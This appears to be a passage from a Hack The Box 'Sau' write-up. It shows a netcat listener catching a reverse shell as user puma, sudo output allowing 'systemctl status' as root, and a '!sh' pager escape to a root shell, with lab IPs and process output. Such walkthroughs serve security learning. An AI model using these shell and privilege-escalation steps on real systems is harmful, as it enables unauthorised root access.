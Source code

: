 # Reverse shell returned

Reverse shell returned as user `puma`. Puma had access to its home directory which contained the user flag.

```
┌─[✗]─[parrot@parrotos]─[~/htb/sau]                                                                                                                                            
└──╼ $nc -lvnp 9001                                                                                                                                                            
listening on [any] 9001 ...                                                                                                                                                    
connect to [10.10.14.10] from (UNKNOWN) [10.129.164.5] 60578                                                                                                                   
/bin/sh: 0: can't access tty; job control turned off  
```

# systemd to root via !sh

After checking sudo permissions it revealed the puma user could run `systemctl` as root and check a specific service.

```
puma@sau:~$ sudo -l                                                                                                                                                         
sudo -l                                                                                                                                                                        
Matching Defaults entries for puma on sau:                                                                                                                                     
    env_reset, mail_badpass,                                                                                                                                                   
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                   
                                                                                                                                                                               
User puma may run the following commands on sau:                                                                                                                               
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service 
```

It was possible to exploit this as when running `systemctl` it preserves root privileges and allows the user to drop into a shell by typing `!sh` when in the editor.

```
puma@sau:~$ sudo /usr/bin/systemctl status trail.service                                                                                                                       
sudo /usr/bin/systemctl status trail.service                                                                                                                                   
WARNING: terminal is not fully functional                                                                                                                                      
-  (press RETURN)                                                                                                                                                              
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sat 2023-07-08 19:04:21 UTC; 2h 1min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 868 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 126.8M
     CGroup: /system.slice/trail.service
             ├─ 868 /usr/bin/python3 server.py
             ├─1224 /bin/sh -c logger -p auth.info -t "maltrail[868]" "Failed p>
             ├─1225 /bin/sh -c logger -p auth.info -t "maltrail[868]" "Failed p>
             ├─1228 cat /tmp/f
```